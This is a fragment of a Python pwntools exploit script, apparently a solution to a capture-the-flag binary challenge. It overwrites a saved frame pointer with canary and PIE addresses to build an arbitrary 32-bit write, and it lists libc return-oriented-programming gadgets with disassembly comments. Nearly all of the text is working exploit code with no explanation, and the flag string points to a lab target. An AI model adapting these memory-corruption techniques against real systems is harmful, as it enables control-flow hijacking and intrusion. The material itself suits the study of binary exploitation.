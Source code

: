 ```python
    
    def manual_jump_rbp_overwrite(r, year, target, should_fault=False):
        encoded_rbp = p64(target + 0x34)
        if b'\x0c' in encoded_rbp or b'\x20' in encoded_rbp or b'':
            print("cant do whitespace :(")
            exit(1)
        r.sendline(b"4")
        r.sendline(str(year))
        r.sendline(b"0")
        r.sendline(flat({
            16: 0x5add011,
            24: manual_jump_rbp+0x48,
            40: 0x41414141 if should_fault else canary,
            48: target + 0x34,
            56: pie_base+0x193e,
            80: 0x6942069420-1,
            200: "please_give_me_flag\x00",
        },length=256))
        try:
            r.recvuntil(b">>")
        except: # recvuntil will eof after it has crashed
            pass

    def write_u32(r, address, value, should_fault=False):
        log.info(f"writing u32 {hex(value)} to {hex(address)}")
        manual_jump_rbp_overwrite(r, 0, address)
        manual_jump_rbp_overwrite(r, value & 0xffffffff, manual_jump_rbp, should_fault=should_fault)

    ADJUST_STACK = 0x000d059b # jumps to wcscmp
    # 000d059b  4881c4f8000000     add     rsp, 0xf8
    # 000d05a2  5b                 pop     rbx {__saved_rbx}
    # 000d05a3  5d                 pop     rbp {__saved_rbp}
    # 000d05a4  415c               pop     r12 {__saved_r12}
    # 000d05a6  415d               pop     r13 {__saved_r13}
    # 000d05a8  415e               pop     r14 {__saved_r14}
    # 000d05aa  415f               pop     r15 {__saved_r15}
    # 000d05ac  e90f80f5ff         jmp     jumps_wcscmp

    RDX_GADGET = libc.address + 0x0005139f
    # is a little screwy bc the needed rdx is 0x6942069420 which contains whitespace
    # 0005139f  488b542450         mov     rdx, qword [rsp+0x50 {var_878_1}]
    # 000513a4  4b8d3c08           lea     rdi, [r8+r9]
    # 000513a8  4c89fe             mov     rsi, r15
    # 000513ab  48894c2440         mov     qword [rsp+0x40 {var_888_4}], rcx
    # 000513b0  4c894c2420         mov     qword [rsp+0x20 {var_8a8_6}], r9
    # 000513b5  4883c201           add     rdx, 0x1
    # 000513b9  4c89442428         mov     qword [rsp+0x28 {var_8a0_6}], r8
    # 000513be  e86d70fdff         call    jumps_memmove

    BIG_POP_GADGET = libc.address + 0x0013076c # jumps to strcasecmp
    # 0013076c  5b                 pop     rbx {__saved_rbx}
    # 0013076d  5d                 pop     rbp {__saved_rbp}
    # 0013076e  415c               pop     r12 {__saved_r12}
    # 00130770  415d               pop     r13 {__saved_r13}
    # 00130772  415e               pop     r14 {__saved_r14}
    # 00130774  e9077eefff         jmp     jumps___strcasecmp

    MOV_RSI_R14 = libc.address + 0x000c651c
    # 000c651c  4c89f6             mov     rsi, r14
    # 000c651f  4889d7             mov     rdi, rdx
    # 000c6522  4d01e6             add     r14, r12
    # 000c6525  48891424           mov     qword [rsp {var_1a8}], rdx
```